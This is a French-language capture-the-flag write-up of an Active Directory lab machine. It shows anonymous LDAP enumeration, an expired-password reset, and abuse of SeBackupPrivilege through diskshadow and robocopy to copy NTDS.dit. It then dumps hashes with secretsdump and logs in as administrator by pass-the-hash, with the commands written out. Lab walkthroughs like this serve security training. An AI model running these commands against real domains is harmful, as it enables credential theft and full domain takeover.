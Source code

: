 Nmap de la box :

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

On tente de voir si on peut se connecter 

![test](Images/20241213023917.png)

On a une connexion valide sans identifiant.
On tente d'énumerer les users ou les shares avec --users pui --shares mais sans succès :

![][20241213024456.png]

Par contre avec ldap on obtient un retour pertinent :

![[Pasted image 20241213024523.png]]

Ensuite on obtient quelque chose d'encore plus pertinent graĉe au module get-desc-users de netexec en utilisant cette commande :
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![[Pasted image 20241213024833.png]]

Le mdp qu'on obtient n'est pas valide pour aucun utilisateur
Par contre on repère un msg d'erreur intéressant pour l'utilisateur Caroline.Robinson :

![[Pasted image 20241213031525.png]]

Le mdp est valide pour elle apparement mais elle doit changer de mdp.

Grâce à cette commande on change son mdp à Password123 :
smbpasswd -r 10.10.126.10 -U caroline.robinson 

On vérifie que cela a marché et ensuite on regarde les privilèges associés à l'utilisateur en exécutant "whoami /priv" grâce à cette commande :

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![[Pasted image 20241213061303.png]]

On remarque directement le privilège SeBackupPrivilege.
On va utiliser cela pour récupérer le fichier NTDS.dit 

On met ça dans un fichier raj.dsh :
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

On fait cette commande :
```
unix2dos raj.dsh
```

Puis sur la machine via evil-winrm :
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

On aura aussi besoin du fichier system pour déchiffrer le NTDS.dit

```
reg save hklm\system c:\Temp\system
```

On télécharge les deux fichiers grâce à la commande download dans evil-winrm
```
download ntds.dit
download system
```

On utilise secretsdump pour pour extraire les hash des utilisateurs :
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![[Pasted image 20241213062005.png]]

On utilise le hash NT de l'administrateur pour récupérer le dernier flag grâce à cette commande :

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![[Pasted image 20241213062049.png]]
